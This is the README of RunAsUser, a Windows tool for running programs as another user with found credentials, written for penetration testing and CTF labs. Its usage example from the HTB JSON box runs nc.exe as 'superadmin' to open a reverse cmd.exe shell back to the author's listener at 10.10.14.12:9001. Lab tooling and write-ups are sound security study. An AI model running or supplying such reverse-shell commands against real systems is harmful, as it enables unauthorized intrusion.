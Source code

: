 # RunAsUser

**Advisory**
All the binaries/scripts/code of RunAsUser should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.
* * *

**Binary already compiled in Releases if you want to use that**

**Whats the purpose?**

RunAsUser was designed to make it easy to execute programs on Windows as another user. In CTF exercises you may come across credentials for another user. Unlike Linux there isn't the functionality to "su" to switch user.

There are ways to already do this with PowerShell. However I have found that in some CTF exercises you may be presented with limited or no PowerShell functionality. CMD also has the ability to execute programs as another user but again I have experienced problems trying to use that.

I have used this in a few boxes now and found it very useful. In fact, I made this application because I faced a very specific issue and other solutions wouldn't work.

It is a quick and dirty tool but does the job. I may come back to it and update it at some point.

**How to run**

So an example machine you can use this on is - HTB JSON.

Found the credentials for the admin user. I had issues trying to run a PowerShell terminal from what I remember, so I used this. I know I could have done this particular box lots of other ways but on other machines you may not be so fortunate and it was a good excuse to use this tool again.

First I uploaded RunAsUser.exe and then executed the below command.

```
RunAsUser.exe -u superadmin -p funnyhtb -f c:\users\public\nc.exe -a '10.10.14.12 9001 -e cmd.exe'
```

This command then executed `nc.exe` as the `superadmin` user and it connected back to my listener.

To view the help, simply run the tool with either `-h` or `--help`.

You may also just run the tool and you will be prompted at each step for the arguments you wish to supply.
